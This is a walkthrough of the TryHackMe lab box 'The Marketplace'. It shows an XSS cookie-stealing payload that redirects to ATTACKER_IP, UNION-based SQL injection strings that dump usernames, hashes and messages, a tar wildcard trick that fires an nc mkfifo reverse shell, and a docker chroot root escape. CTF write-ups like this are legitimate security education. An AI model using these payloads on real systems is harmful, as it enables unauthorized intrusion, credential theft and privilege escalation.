This box is rated medium difficulty on THM. It involves us using an XSS vulnerability to capture an admin token on a website which leads to a dumping a database via SQL injection. A message enumerated from the DB contains a user's temporary password letting us SSH onto the box. Then, we abuse a known exploit in tar to grab a reverse shell as a second user. Finally, a quick docker container escape allows us to mount the filesystem as root and spawn a shell. 

_Can you take over The Marketplace's infrastructure?_

## Scanning & Enumeration
As always, I begin with an Nmap scan against the given IP to find any running services on the host.

```
$ sudo nmap -p22,80,32768 -sCV 10.64.129.71 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-27 20:39 CST
Nmap scan report for 10.64.129.71
Host is up (0.042s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry 
|_/admin
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.33 seconds
```

There are just three ports open:
- SSH on port 22
- An nginx web server on port 80
- A node.js web server on port 32768

We're dealing with a web-heavy Linux machine so I like to run Gobuster directory/subdomain scans in the background to save on time. Default scripts also show that /admin is disallowed on robots.txt so that is surely a page of interest. 

The webpage on port 80 greets us with a barren site for selling various items.



I create a new account and have a look at different features we have access to. Upon doing so, I see we're able to list new items and publish them to the page. I quickly test for HTML injection and find that I'm able to bolden my description string using `<b> INPUT </b>` which most likely means this site is vulnerable to XSS.

Another feature of the site is to report any listings to an admin for the page's safekeeping and is meant to keep things orderly. I also notice when we login, the site gives us a JWT in order to track our role, username, etc.



Things are starting to look bad for the marketplace. Let's create a new listing with an XSS payload that will capture the user's cookie and send it to our own HTTP server.

I make a new listing with our payload in the description. This is the one I default to using as it almost always bypasses firewalls and works quite well.


```
<script>var c='coo'+'kie';document.location='http://ATTACKER_IP/?c='+document[c];</script>
```


Then we can report it to an administrator and see about stealing a privileged JWT in order to impersonate them.



Almost immediately after sending it, I get a response from the server. Ignore the first one as that is our own browser reaching out to us. Also, if you're having trouble reporting the listing, navigate to a different one, hit report, and change the URL to the malicious listing. This payload works by redirecting the user to an attacker-owned web server so getting to the report page can be difficult.

Now let's supply that token in our browser's local storage and look for newly acquired things to exploit. The first of three flags is hosted here as well.


There is an administration panel that allows us to manage posts being made on the site, with the only real option to delete the user. This gives us a few usernames to work with, but the real kicker is how the site queries for these posts.



As reflected in the URL, it takes in a 'user' parameter and displays all results from the query to the database onto the page. Let's test for SQL injection with a few special characters and see about enumerating a database.



Bingo, now we know the server is running MySQL and is prone to injection attacks. I'll enumerate this DB manually for fun using [this article](https://portswigger.net/web-security/sql-injection) as reference. You can also capture a request in Burp Suite and send it to SQLmap for a quick scan to make things a bit easier.

```
/admin?user=0 UNION SELECT 1,2,3,4-- -
```



Ok there are four columns, next is databases.

```
/admin?user=0 UNION SELECT 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
```



We probably want the marketplace one, so let's grab all the table names from it.

```
/admin?user=0%20UNION%20select%201,group_concat(table_name),3,4%20from%20information_schema.tables%20where%20table_schema=%20%27marketplace%27--%20-
```



Lastly, let's dump all columns in the users table to potentially grab any hashes from the DB.

```
/admin?user=0 union select group_concat(column_name,'\n'),2,3,4 from information_schema. columns where table_name='users' -- -
```



Lastly, let's dump everything in the users table.

```
/admin?user=0 union select 1,group_concat(id,':',username,':',password,':', isAdministrator,'\n'),3,4 from marketplace.users --
```



We get a few hashes for system, jake, and michael, but sending them over to hashcat doesn't give us any passwords. I enumerate the database some more and find a 'messages' table.

```
/admin?user=0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='messages'-- -
```



Displaying message_content to the page gives us a paragraph saying that an unnamed user has a weak SSH password and that it has been changed to a new temporary one for the time being.

```
/admin?user=0 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -
```



I use this temp password with the names gathered from the users DB and get a successful login as Jake. Now we can begin looking at routes for privilege escalation and also grab the second flag under Jake's home dir.

```
jake@the-marketplace:~$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
marketplace:x:1001:1001:,,,:/home/marketplace:/bin/bash
jake:x:1000:1000:,,,:/home/jake:/bin/bash
michael:x:1002:1002:,,,:/home/michael:/bin/bash
```

We'll probably have to pivot to Michael's account before root user, so I start looking for files owned by him. There is a `backups.sh` script under `/opt` which will use the tar binary on specified file and output it to `/opt/backups/backup.tar`.



Turns out we also have access to run this script using sudo as Michael. There is an exploit where we create malicious filenames and have the tar binary execute those as flags to then run a script owned by us.

[This article](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) goes a bit further in depth on exploiting wildcards for escalation. While in /opt/backups/, I echo a netcat mkfifo shell in a file named `shell.sh`, then I create two empty files which will serve as flags to redirect tar in order to execute our reverse shell.

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKING_IP PORT>/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```



Now we are in as Michael, next stop is root so let's restart enumeration for privilege escalation. Listing the groups we're in shows that we are apart of Docker. If the system is misconfigured, we can actually leverage our rights to this group to mount the filesystem and spawn a shell.



[GTFOBins](https://gtfobins.org/gtfobins/docker/#shell) has a great method for spawning a root shell using a docker command.

```
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh
```

This works by effectively mounting the host filesystem onto a root container and then `chroot`-ing into it, allowing us to grab a shell as root user.



After that last command, we can grab the final flag at `/root/root.txt` to complete the box. I really liked this box as the web exploits fun to do and the privesc techniques are neat. I hope this was helpful to anyone following along or stuck and happy hacking!
